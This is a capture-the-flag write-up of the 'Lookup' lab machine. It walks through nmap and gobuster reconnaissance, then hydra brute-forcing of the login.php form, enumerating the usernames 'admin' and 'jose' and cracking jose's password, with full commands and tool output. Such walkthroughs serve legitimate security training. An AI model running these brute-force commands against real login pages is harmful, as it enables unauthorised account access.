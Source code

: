 # $${\color{red}NOTE}$$
I have to do this before enter the enumeration phase
```
sudo nano /etc/hosts
```
and add `{ip} lookup.thm` at the end of the file in order to access to the site

## Enumeration 
Using `nmap` to kickstart the process
```
 nmap -T4 -sV -v -O -A -Pn 10.10.97.100 -oN nmap.txt
```
$${\color{red}NOTE}$$ : 10.10.97.100 in my case is the ip of the lookup.thm
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Login Page
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Uptime guess: 13.705 days (since Thu May 15 06:07:54 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
I knew that `22` and `80` are open which mean that I can acces the site via port `80`
Then using `gobuster` to gather directory necessary 
```
gobuster dir -u "http://lookup.thm" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.js,.txt -t 1000 2>/dev/null
```
!Not much directories gathered after executing `gobuster`

After accessing the site, there was a login page => implementing brute-force attack
Using `hydra` to brute-force attack, but I had to look for the username first 

```
hydra -p aaaaa -L /usr/share/wordlists/seclists/Usernames/Names/names.txt lookup.thm http-post-form '/login.php:username=^USER^&password=^PASS^:username'
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-28 22:42:09
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10177 login tries (l:10177/p:1), ~637 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:username
[80][http-post-form] host: lookup.thm   login: admin   password: aaaaa
[STATUS] 579.00 tries/min, 579 tries in 00:01h, 9598 to do in 00:17h, 16 active
[STATUS] 578.33 tries/min, 1735 tries in 00:03h, 8442 to do in 00:15h, 16 active
[STATUS] 564.57 tries/min, 3952 tries in 00:07h, 6225 to do in 00:12h, 16 active
[80][http-post-form] host: lookup.thm   login: jose   password: aaaaa
[STATUS] 562.50 tries/min, 6750 tries in 00:12h, 3427 to do in 00:07h, 16 active
[STATUS] 566.41 tries/min, 9629 tries in 00:17h, 548 to do in 00:01h, 16 active
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-28 23:00:16
```
Credentials gained:
username: `admin`, `jose`
After having the usernames, I continued finding the passwords for each of them.
$${\color{red}NOTE}$$ : brute-forcing with `jose` first
```
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form '/login.php:username=^USER^&password=^PASS^:Wrong'
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-28 22:52:20
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:Wrong
[STATUS] 552.00 tries/min, 552 tries in 00:01h, 14343847 to do in 433:06h, 16 active
[80][http-post-form] host: lookup.thm   login: jose   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-28 22:55:05
```
I found the credentials for `jose`, then logging to the site

